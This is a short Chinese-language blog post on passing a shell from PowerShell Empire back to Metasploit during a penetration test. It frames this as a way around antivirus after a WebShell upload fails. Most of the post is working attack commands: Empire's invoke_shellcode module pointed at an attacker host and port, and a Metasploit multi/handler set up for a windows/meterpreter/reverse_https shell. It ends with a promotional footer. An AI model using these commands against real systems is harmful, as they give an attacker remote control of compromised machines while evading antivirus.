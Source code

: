 ```yaml
---
layout: post
category: binghe-code-hack
title: Empire 反弹回 Metasploit
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: Empire 反弹回 Metasploit
lock: need
---
```


# Empire 反弹回 Metasploit

在实际渗透中，当拿到WebShell上传的MSF客户端无法绕过目标主机的杀毒软件时，可以使用PowerShell来绕过，也可以执行Empire的Payload来绕过，成功之后再使用Empiore的模块将其反弹回Metasploit。 这里使用Empire的usemodule code_execution/invoke_shellcode模块修改两个参数：Lhost、Lport。将Lhost修改为MSF所在主机的IP，按以下命令设置：

```
set Lhost 192.168.31.247
set Lport 4444
```

![img](https://img-blog.csdnimg.cn/2019010920450179.jpg)

在MSF上设置监听，命令如下：

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_https
set lhost 192.168.31.247
set lport 4444
run
```

运行后，就可以收到Empire反弹回来的Shell

![img](https://img-blog.csdnimg.cn/20190109204848442.jpg)

# 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)